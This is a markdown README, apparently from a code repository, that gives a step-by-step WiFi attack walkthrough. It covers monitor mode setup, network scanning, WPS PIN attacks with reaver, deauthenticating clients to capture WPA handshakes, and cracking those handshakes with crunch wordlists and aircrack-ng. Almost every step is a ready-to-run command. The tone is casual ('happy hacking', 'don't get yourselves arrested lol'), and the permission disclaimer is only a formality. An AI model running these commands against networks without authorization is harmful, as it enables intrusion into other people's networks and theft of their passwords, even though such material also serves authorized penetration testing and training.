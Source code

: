 
# WiFi Penetration Testing Guide

> **Disclaimer:** This guide is for educational purposes only. Use these tools exclusively on networks you own or have explicit permission to test. Unauthorized use may be illegal.

---

## Table of Contents
- [Introduction](#introduction)
- [Prerequisites](#prerequisites)
- [Setting Up Monitor Mode](#setting-up-monitor-mode)
- [Network Scanning](#network-scanning)
- [Performing WPS Attacks](#performing-wps-attacks)
- [Capturing WPA/WPA2 Handshakes](#capturing-wpapawpa2-handshakes)
- [Cracking WPA/WPA2 Passwords](#cracking-wpapawpa2-passwords)

---

## Introduction

Greeting this is how to hack a network maybe one of the easiest way if not the easiest, happy hacking :3

---

## Prerequisites

Before you begin, ensure you have:
- **Operating System:** A Linux distribution (Kali Linux is highly recommended for beginners).
- **Wireless Adapter:** An adapter that supports monitor mode and packet injection.
- **Required Tools:** Tools such as `aircrack-ng suite`, `wash`, `reaver`, and `crunch` should be installed (preinstalled on kali).
- **Basic Command Line Skills:** Familiarity with using the Linux terminal will help you follow along.

---

## Setting Up Monitor Mode

Monitor mode allows your wireless adapter to capture all traffic within range.

### 1. List Available Interfaces
```bash
iwconfig
```
This command displays all available wireless devices.

### 2. Disable the Interface

Replace `wlan1` with your adapter's name.
```bash
ifconfig wlan1 down
```

### 3. Stop Interfering Processes
```bash
airmon-ng check kill
```
This stops processes that might interfere with monitor mode.

### 4. Enable Monitor Mode
```bash
iwconfig wlan1 mode monitor
```

### 5. Re-enable the Interface
```bash
ifconfig wlan1 up
```

### 6. Verify Monitor Mode
Run `iwconfig` again to confirm that your interface is now in monitor mode.

---

## Network Scanning

With your adapter in monitor mode, you can now scan for nearby networks.

### Scan 2.4 GHz Networks
```bash
airodump-ng wlan1
```

### Scan 5 GHz Networks
```bash
airodump-ng --band a wlan1
```

### Scan Both Bands (2.4 GHz & 5 GHz)
```bash
airodump-ng --band abg wlan1
```

### Capture Scan Data
Replace `<target_mac>` with the network's MAC address and `<channel>` with its channel.
```bash
airodump-ng --bssid <target_mac> --channel <channel> --write <file name> wlan1
```
example:
```bash
airodump-ng --bssid 00:11:22:33:44:55 --channel 2 --write test.txt wlan1
```

This command saves the scan results to a file for further analysis.

---

## Performing WPS Attacks

WPS attacks target routers with Wi-Fi Protected Setup enabled. This section explains the process step-by-step.

### 1. Identify Networks with WPS Enabled (WAY EASIER THAN WPA/2)
```bash
wash --interface wlan1
```
This lists nearby networks that support WPS.

### 2. Execute a WPS Attack
Replace `<target_mac>` and `<channel>` with the appropriate values.
```bash
reaver --bssid <target_mac> --channel <channel> --interface wlan1 -vvv --no-associate
```
- **`-vvv`:** Enables detailed output, helpful for understanding what’s happening.
- **`--no-associate`:** Uses manual association, which can sometimes yield better results.

---

if all goes to plan it should show you the password if not carry on with the WPA/2

## Capturing WPA/WPA2 Handshakes

Capturing the handshake between a router and a connected client is key to testing WPA/WPA2 security.

### 1. Start Handshake Capture
Replace `<target_mac>` and `<channel>` with your target’s details.
```bash
airodump-ng --bssid <target_mac> --channel <channel> --write <file name> wlan1

```
Let this command run until a handshake is captured.
example: 
```bash
airodump-ng --bssid 00:11:22:33:44:55 --channel 2 --write wpa_handshake wlan1
```

### 2. Accelerate Handshake Capture with Deauthentication
Force a connected client to reconnect by deauthenticating them:
```bash
aireplay-ng --deauth 4 -a <target_mac> -c <client_mac> wlan1
```
- **`-a`:** Specifies the target network's MAC address.
- **`-c`:** Specifies the client's MAC address.

---

## Cracking WPA/WPA2 Passwords

Once a handshake is captured, you can attempt to crack the network password using a wordlist.

### 1. Generate a Wordlist Using Crunch
For example, to create a wordlist for passwords of length 6 to 8:
```bash
crunch 6 8 abcdefghijklmnopqrstuvwxyz0123456789 -o wordlist.txt
```
You can also incorporate patterns:
```bash
crunch 6 8 abc123 -t @@@@ -o wordlist.txt
```

### 2. Crack the Password with Aircrack-ng
```bash
aircrack-ng wpa_handshake-01.cap -w wordlist.txt
```
- **`wpa_handshake-01.cap`:** The file containing the captured handshake.
- **`wordlist.txt`:** Your generated wordlist.

Aircrack-ng will try each password from the wordlist against the handshake until a match is found (will take some time).

---

**Don't get yourselves arrested lol**
